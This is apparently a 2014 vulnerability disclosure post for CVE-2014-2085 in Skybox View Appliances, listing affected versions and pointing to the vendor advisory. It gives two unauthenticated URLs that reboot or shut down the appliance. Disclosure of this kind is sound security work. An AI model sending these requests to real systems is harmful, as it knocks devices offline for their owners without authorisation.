 ```yaml
---
title: "[CVE-2014-2085] - SKYBOX Security - DDOS"
date: 2014-05-10
author: Luigi Vezzoso
layout: post
tags: 
    - CVE
    - vulnerability
category: posts
---
```


Exploit Title: [SKYBOX Security - DDOS]

Date: [22-Jan-2014]

Exploit Author: [Luigi Vezzoso]

Vendor Homepage: [http://www.skyboxsecurity.com]

Version: [Skybox View Appliances with ISO versions: 6.3.33-2.14, 6.3.31-2.14, 6.4.42-2.54, 6.4.45-2.56, 6.4.46-2.57]

Tested on: [Centos 6.4 kernel 2.6.32]

CVE : [CVE-2014-2085]

#OVERVIEW

A vulnerability has been found in some Skybox View Appliances’ Admin interfaces which would allow a potential malicious party to bypass the authentication mechanism and execute reboot and/or shutdown of appliance self

#INTRODUCTION

Skybox Security has a complete portfolio of security management tools that deliver the security intelligence needed to act fast to minimize risks and eliminate attack vectors.  Based on a powerful risk analytics platform that links data from vulnerability scanners, threat intelligence feeds, firewalls and other network infrastructure devices – Skybox gives you context to prioritize risks accurately and automatically, in minutes.

#VULNERABILITY DESCRIPTION

It's possible to open and execute the reboot and shutdown script without autentication at the following links:

https://1.1.1.1:444/scripts/commands/reboot?_=1111111111

https://1.1.1.1:444/scripts/commands/shutdown?_=1111111111

#VERSIONS AFFECTED

Skybox View Appliances with ISO versions: 6.3.33-2.14, 6.3.31-2.14, 6.4.42-2.54, 6.4.45-2.56, 6.4.46-2.57

#SOLUTION

Please refer to the vendor security advisor: Security Advisory 2014-3-25-1

#CREDITS

Luigi Vezzoso

email:  luigivezzoso@gmail.com

skype:  luigivezzoso